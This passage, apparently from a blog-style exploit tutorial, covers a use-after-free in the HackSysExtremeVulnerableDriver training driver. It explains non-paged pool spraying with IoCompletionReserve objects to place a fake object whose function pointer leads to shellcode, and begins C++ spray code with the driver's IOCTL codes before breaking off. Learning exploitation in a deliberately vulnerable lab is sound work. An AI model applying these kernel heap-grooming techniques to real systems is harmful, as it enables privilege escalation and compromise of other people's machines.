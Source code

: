This is not what we want. We want this to be **predictable** just like our last exploit. We want the freed address of our UAF object to be filled with our fake object, so when the function pointer at that address is called, it will be a pointer we control, our shellcode. To do this, our plan of attack is very similar to our last post. **Please go through that exploit first!**

## Spraying the Non-Paged Pool
First thing is first, we need an object that fits our needs. Last post we used Event Objects, but this time around, since we need `0x60` sized chunks, we'll be using `IoCompletionReserve` objects which we can allocate with `NtAllocateReserveObject` (thanks blogpost authors). 

We'll do the same thing we did last time but spray some more. In my testing I found that I had to spray more to get the chunks sequential like we want:
+ defragment the pool with 10,000 objects
+ aim for some sequential/contiguous blocks of objects with another spray of 30,000 objects.

Next, we'll want to poke holes in the contiguous block portion, remember? We'll be collecting handles to these objects in vectors so that we can later free the ones we need to create the holes. The holes are already the perfect size, so we'll just free every other contiguous block handle so that way, every hole that is created in our contiguous block will be surrounded on both sides by our objects. Let's update our exploit code and test out the spray. Huge thanks to @tekwizz123 once again for showing in his exploit how to get `NtAllocateReserveObject` into the program, would've taken me a long time to trouble shoot those compilation errors without his help. Our spray test code:
```cpp
#include <iostream>
#include <vector>
#include <Windows.h>

using namespace std;

#define DEVICE_NAME             "\\\\.\\HackSysExtremeVulnerableDriver"
#define ALLOCATE_UAF_IOCTL      0x222013
#define FREE_UAF_IOCTL          0x22201B
#define FAKE_OBJECT_IOCTL       0x22201F
#define USE_UAF_IOCTL           0x222017

vector<HANDLE> defrag_handles;
vector<HANDLE> sequential_handles;

typedef struct _LSA_UNICODE_STRING {
    USHORT Length;
    USHORT MaximumLength;
    PWSTR Buffer;
} UNICODE_STRING;

typedef struct _OBJECT_ATTRIBUTES {
    ULONG Length;
    HANDLE RootDirectory;
    UNICODE_STRING* ObjectName;
    ULONG Attributes;
    PVOID SecurityDescriptor;
    PVOID SecurityQualityOfService;
} OBJECT_ATTRIBUTES;

#define POBJECT_ATTRIBUTES OBJECT_ATTRIBUTES*

typedef NTSTATUS(WINAPI* _NtAllocateReserveObject)(
    OUT PHANDLE hObject,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN DWORD ObjectType);

HANDLE grab_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
```